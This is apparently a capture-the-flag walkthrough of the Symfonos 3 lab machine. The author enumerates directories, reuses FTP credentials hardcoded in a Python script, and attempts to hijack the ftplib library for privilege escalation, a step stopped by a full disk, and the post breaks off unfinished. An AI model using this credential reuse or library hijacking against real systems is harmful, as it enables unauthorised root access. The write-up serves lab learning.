

```shell
hades@symfonos3:/$ ls -lAh {tmp,opt,var,mnt,media}
media:
total 4.0K
lrwxrwxrwx 1 root root    6 Jul 19  2019 cdrom -> cdrom0
drwxr-xr-x 2 root root 4.0K Jul 19  2019 cdrom0

mnt:
total 0

opt:
total 4.0K
drwxr-x--- 2 root hades 4.0K Apr  6  2020 ftpclient

tmp:
total 28K
drwxrwxrwt 2 root root 4.0K Jan  8 03:42 .font-unix
drwxrwxrwt 2 root root 4.0K Jan  8 03:42 .ICE-unix
drwx------ 3 root root 4.0K Jan  8 03:42 systemd-private-ec7868dfb60649b0bb6ba410012fdedd-apache2.service-3dWiia
drwx------ 3 root root 4.0K Jan  8 03:42 systemd-private-ec7868dfb60649b0bb6ba410012fdedd-systemd-timesyncd.service-U68ceA
drwxrwxrwt 2 root root 4.0K Jan  8 03:42 .Test-unix
drwxrwxrwt 2 root root 4.0K Jan  8 03:42 .X11-unix
drwxrwxrwt 2 root root 4.0K Jan  8 03:42 .XIM-unix

var:
total 40K
drwxr-xr-x  2 root root  4.0K Jan  6 06:30 backups
drwxr-xr-x  9 root root  4.0K Jul 20  2019 cache
drwxr-xr-x 32 root root  4.0K Jul 20  2019 lib
drwxrwsr-x  2 root staff 4.0K Mar 28  2019 local
lrwxrwxrwx  1 root root     9 Jul 19  2019 lock -> /run/lock
drwxr-xr-x  8 root root  4.0K Jan  6 08:04 log
drwxrwsr-x  2 root mail  4.0K Jan  6 07:22 mail
drwxr-xr-x  2 root root  4.0K Jul 19  2019 opt
lrwxrwxrwx  1 root root     4 Jul 19  2019 run -> /run
drwxr-xr-x  5 root root  4.0K Jul 19  2019 spool
drwxrwxrwt 14 root root  4.0K Jan  8 05:39 tmp
drwxr-xr-x  3 root root  4.0K Jul 19  2019 www
```

We find /opt/ftpclient.

### /opt/ftpclient

```shell
hades@symfonos3:/$ ls -lA /opt/ftpclient
total 8
-rw-r--r-- 1 root hades 262 Apr  6  2020 ftpclient.py
-rw-r--r-- 1 root hades 251 Jan  8 05:55 statuscheck.txt
```

#### ftpclient.py

```python
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()
```

#### statuscheck.txt

```shell
HTTP/1.1 200 OK
Date: Sat, 08 Jan 2022 11:56:01 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 20 Jul 2019 05:19:54 GMT
ETag: "f1-58e15fe4052c8"
Accept-Ranges: bytes
Content-Length: 241
Vary: Accept-Encoding
Content-Type: text/html

```

## FTP

```shell
ftp $RHOST 21
Connected to 192.168.56.92.
220 ProFTPD 1.3.5b Server (Debian) [::ffff:192.168.56.92]
Name (192.168.56.92:f0c1s): hades
331 Password required for hades
Password:
230 User hades logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||15895|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 hades    hades        4096 Jan  8 11:32 .
drwxr-xr-x   4 root     root         4096 Jul 20  2019 ..
lrwxrwxrwx   1 root     root            9 Jul 20  2019 .bash_history -> /dev/null
-rw-r--r--   1 hades    hades         220 Jul 20  2019 .bash_logout
-rw-r--r--   1 hades    hades        3526 Jul 20  2019 .bashrc
-rw-r--r--   1 hades    hades           0 Jan  8 11:31 lse.sh
-rw-r--r--   1 hades    hades           0 Jan  8 11:32 lse.sh.1
drwxr-xr-x   2 hades    hades        4096 Jul 20  2019 .nano
-rw-r--r--   1 hades    hades         675 Jul 20  2019 .profile
-rw-r--r--   1 hades    hades         165 Apr  6  2020 .wget-hsts
226 Transfer complete
ftp> cd /srv
250 CWD command successful
ftp> ls
229 Entering Extended Passive Mode (|||58599|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 hades    hades        4096 Jul 20  2019 ftp
226 Transfer complete
ftp> cd ftp
250 CWD command successful
ftp> ls
229 Entering Extended Passive Mode (|||21173|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 hades    hades         251 Jul 20  2019 statuscheck.txt
226 Transfer complete
ftp> put fping.txt
local: fping.txt remote: fping.txt
ftp: Can't open `fping.txt': No such file or directory
ftp> put lse.sh
local: lse.sh remote: lse.sh
229 Entering Extended Passive Mode (|||52659|)
150 Opening BINARY mode data connection for lse.sh
100% |**********************************************************************| 43570       26.84 MiB/s    00:00 ETA
452 Transfer aborted. No space left on device
43570 bytes sent in 00:00 (11.81 MiB/s)
ftp> exit
221 Goodbye.

```

I used the credentials to login. Then, reached /srv/ftp and thought can I push files from here? Maybe it was an access issue.

But no, cannot upload lse.sh from ftp. No space strikes again.

### Attack via python

Back to attacking via python. The file is using `ftplib`, can we abuse this relationship?

```shell
hades@symfonos3:/opt/ftpclient$ find / -name "ftplib*" 2>/dev/null
/usr/lib/python2.7/ftplib.pyc
/usr/lib/python2.7/ftplib.py
/usr/lib/python3.5/__pycache__/ftplib.cpython-35.pyc
/usr/lib/python3.5/ftplib.py
```

Cannot save the file because there is no space.



## Stuck in disk-full jail

### cannot copy, wget



```shell
hades@symfonos3:~$ cp /usr/lib/python2.7/ftplib.py ./
hades@symfonos3:~$ ls -la
total 28
drwxr-xr-x 3 hades hades 4096 Jan  8 06:17 .
drwxr-xr-x 4 root  root  4096 Jul 20  2019 ..
lrwxrwxrwx 1 root  root     9 Jul 20  2019 .bash_history -> /dev/null
-rw-r--r-- 1 hades hades  220 Jul 19  2019 .bash_logout
-rw-r--r-- 1 hades hades 3526 Jul 19  2019 .bashrc
-rwxr--r-- 1 hades hades    0 Jan  8 06:17 ftplib.py
-rw-r--r-- 1 hades hades    0 Jan  8 05:31 lse.sh
-rw-r--r-- 1 hades hades    0 Jan  8 05:32 lse.sh.1
drwxr-xr-x 2 hades hades 4096 Jul 20  2019 .nano
-rw-r--r-- 1 hades hades  675 Jul 19  2019 .profile
-rw-r--r-- 1 hades hades  165 Apr  6  2020 .wget-hsts

```

Notice the zeroes.

### cannot nano









## to be continued...

</body>
</html>
